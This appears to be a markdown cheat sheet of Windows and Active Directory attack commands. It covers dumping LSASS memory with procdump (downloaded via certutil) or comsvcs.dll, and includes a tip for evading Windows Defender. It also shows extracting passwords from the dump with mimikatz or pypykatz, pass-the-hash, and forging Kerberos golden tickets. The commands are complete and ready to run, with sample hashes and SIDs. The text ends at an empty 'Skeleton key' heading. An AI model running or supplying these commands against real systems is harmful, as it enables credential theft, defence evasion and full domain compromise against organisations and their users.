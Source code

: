 
## Mini Dump

Dump the lsass process with `procdump`

> Windows Defender is triggered when a memory dump of lsass is operated, quickly leading to the deletion of the dump. Using lsass's process identifier (pid) "bypasses" that.

```powershell
# HTTP method - using the default way
certutil -urlcache -split -f http://live.sysinternals.com/procdump.exe C:\Users\Public\procdump.exe
C:\Users\Public\procdump.exe -accepteula -ma lsass.exe lsass.dmp

# SMB method - using the pid
net use Z: https://live.sysinternals.com
tasklist /fi "imagename eq lsass.exe" # Find lsass's pid
Z:\procdump.exe -accepteula -ma $lsass_pid lsass.dmp
```

Dump the lsass process with `rundll32`

```powershell
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump $lsass_pid C:\temp\lsass.dmp full
```


Use the minidump:
* Mimikatz: `.\mimikatz.exe "sekurlsa::minidump lsass.dmp"`
  ```powershell
  mimikatz # sekurlsa::minidump lsass.dmp
  mimikatz # sekurlsa::logonPasswords
  ```
* Pypykatz: `pypykatz lsa minidump lsass.dmp`


## Pass The Hash

```powershell
mimikatz # sekurlsa::pth /user:SCCM$ /domain:IDENTITY /ntlm:e722dfcd077a2b0bbe154a1b42872f4e /run:powershell
```

## Golden ticket

```powershell
.\mimikatz kerberos::golden /admin:ADMINACCOUNTNAME /domain:DOMAINFQDN /id:ACCOUNTRID /sid:DOMAINSID /krbtgt:KRBTGTPASSWORDHASH /ptt
```

```powershell
.\mimikatz "kerberos::golden /admin:DarthVader /domain:rd.lab.adsecurity.org /id:9999 /sid:S-1-5-21-135380161-102191138-581311202 /krbtgt:13026055d01f235d67634e109da03321 /startoffset:0 /endin:600 /renewmax:10080 /ptt" exit
```

## Skeleton key
